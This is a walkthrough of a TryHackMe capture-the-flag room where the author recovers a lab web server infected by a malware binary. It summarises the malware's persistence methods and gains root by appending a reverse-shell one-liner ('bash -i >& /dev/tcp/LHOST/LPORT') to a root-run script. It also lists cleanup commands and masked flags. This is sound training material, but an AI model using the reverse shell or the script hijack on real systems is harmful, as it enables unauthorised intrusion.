Good day. Today I will be walkthought a machine from the TryHackMe.
Story
Hi, it's me, your friend Alex.
I'm not going to beat around the bush here; I need your help. As you know I work at a company called Recoverysoft. I work on the website side of things, and I setup a Ubuntu web server to run it. Yesterday one of my work colleagues sent me the following email:
Hi Alex,
A recent security vulnerability has been discovered that affects the web server. Could you please run this binary on the server to implement the fix?
Regards
- TeoAttached was a linux binary called fixutil. As instructed, I ran the binary, and all was good. But this morning, I tried to log into the server via SSH and I received this message:
YOU DIDN'T SAY THE MAGIC WORD!
YOU DIDN'T SAY THE MAGIC WORD!
YOU DIDN'T SAY THE MAGIC WORD!It turns out that Teo got his mail account hacked, and fixutil was a targeted malware binary specifically built to destroy my webserver!
when I opened the website in my browser I get some crazy nonsense. The webserver files had been encrypted! Before you ask, I don't have any other backups of the webserver (I know, I know, horrible practice, etc...), I don't want to tell my boss, he'll fire me for sure.
Please access the web server and repair all the damage caused by fixutil. You can find the binary in my home directory. Here are my ssh credentials:Username: alex
Password: madelineI have setup a control panel to track your progress on port 1337. Access it via your web browser. As you repair the damage, you can refresh the page to receive those "flags" I know you love hoarding.
Good luck!
- Your friend Alex
Help Alex!
First i need to look at the web server.
{kind=link}
The web server files are encrypted.
Flags will be displayed on port 1337. At the moment it is empty.
{kind=link}
Now let's connect to the via ssh server.
{kind=link}
ssh alex@10.10.113.174 -p 22After logging in via ssh, we see an endless repetition of the phrase YOU DIDN'T SAY THE MAGIC WORD!, which blocks the launch of commands, this may be due to the infection of the .bashrc file in the user's home directory, and we really cannot write anything when we loging, but if we enter not through /bin/bash but through /bin/sh then we can bypass this.
{kind=link}
ssh alex@10.10.113.174 -p 22 /bin/shWhen looking at the .bashrc file, I found a malicious line that was blocking the launch of commands via bash.
cat .bashrc{kind=link}
{kind=link}
sed '$d' .bashrcAfter I removed the malicious line with sed, I tried again to log in using /bin/bash, but the malware added the malicious line to the .bashrc file again, so I had to copy the .bashrc file to myself and delete the original. Even though I deleted the .bashrc file, the malware was terminating my bash session, so I will working using /bin/sh.
rm -rf .bashrc{kind=link}
In the meantime I got the first flag.
{kind=link}
Flag 0: THM{d##############################e}Now I need to find out how the malware works. In order to transfer the malware to my machine, I will use base64.
{kind=link}
base64 fixutilmkdir malware_filesbase64 -d file > malware_files/fixutilNext, I use the ghidra utility to decompile the malware.
Opening the fixutil file with ghidra and after careful analysis of the main function, I found out that it works like this:
- Inserts a malicious line into the .bashrc file
- Copies the file /lib/x86_64-linux-gnu/liblogging.so to the file /tmp/logging.so
- Runs the file /bin/admin

Now I need to analyse the /lib/x86_64-linux-gnu/liblogging.so library, I also use base64 for transfer.
{kind=link}
base64 /lib/x86_64-linux-gnu/liblogging.sobase64 -d file2 > malware_files/liblogging.soAfter analyzing the library, I realized that it does the following:
- Copy /tmp/logging.so to /lib/x86_64-linux-gnu/oldliblogging.so
- Creates a file /root/.ssh/authorized_keys for ssh authorization as root user.
- Creates a security user with root privileges.
- Creates a file /opt/brilliant_script.sh which kills bash processes.
- Creates an task "evil" that constantly runs the /opt/brilliant_script.sh file.
{kind=link}
I need root access to restore the server further, but how do I get it? take a look at the brilliant_script.sh file that is constantly being executed.
{kind=link}
It looks like we can edit this file. With this we can get root privileges.
Now I create reverse bash shell /tmp/a.sh and add its launch to the malware script. After a few minutes, I get a root shell.
{kind=link}
cat > /tmp/a.sh << "EOF"#!/bin/bashbash -i >& /dev/tcp/LHOST/LPORT 0>&1EOFecho "bash /tmp/a.sh" >> /opt/brilliant_script.sh{kind=link}
Despite the fact that I received administrator rights, we must not forget that the brilliant_script.sh file closes bash processes, so you need to act quickly and efficiently.
{kind=link}
cat /dev/null > /opt/brilliant_script.shcat /dev/null > /etc/cron.d/evilcat /dev/null > /home/alex/.bashrcFine now i have neutralized it and changed root password. Now I can log in via ssh.
{kind=link}
ssh alex@10.10.113.174 -p 22Now I need to completely remove the malware files, security user from passwd and shadow files, authorized_keys from /root/.ssh directory, replace liblogging.so with oldliblogging.so.
rm -rf /etc/cron.d/evilrm -rf /opt/brilliant_script.shrm -rf /home/alex/fixutilmv /lib/x86_64-linux-gnu/oldliblogging.so /lib/x86_64-linux-gnu/liblogging.sorm -rf ~/.ssh/authorized_keysEdit shadow and passwd files with nano.Now I got 4 more flags.
{kind=link}
Flag 1: THM{4#############################d}Flag 2: THM{7#############################2}Flag 3: THM{7#############################0}Flag 4: THM{b#############################d}Now i need to decrypt the site files in /usr/local/apache2/htdocs/ directory.
The files are encrypted using XOR, so to decrypt them I will use this script and key from the /opt/.fixutil/backup.txt file. Also I use scp to transfer files to my computer.
 {kind=link}
{kind=link}
After decryption, I run simplehttpserver and download them on the server.
curl http://LHOST/todo.dec.html -o todo.htmlcurl http://LHOST/index.dec.html -o index.htmlcurl http://LHOST/reallyimportant.dec.txt -o reallyimportant.txt{kind=link}
And i got final 5th flag.
{kind=link}
Flag 5: THM{0##############################2}